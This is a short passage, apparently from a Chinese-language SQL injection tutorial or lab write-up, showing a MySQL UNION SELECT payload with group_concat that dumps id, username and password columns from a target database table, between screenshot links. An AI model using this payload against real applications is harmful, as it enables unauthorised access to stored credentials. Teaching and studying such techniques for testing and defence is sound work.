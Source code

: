 ![image-20250221231115885](static/image/image-20250221231115885.png)

#### 查询数据内容

```mysql
union select null,group_concat(id,0x7e,username,0x7e,password),null from 数据库名.表名
```

![image-20250221231417264](static/image/image-20250221231417264.png)
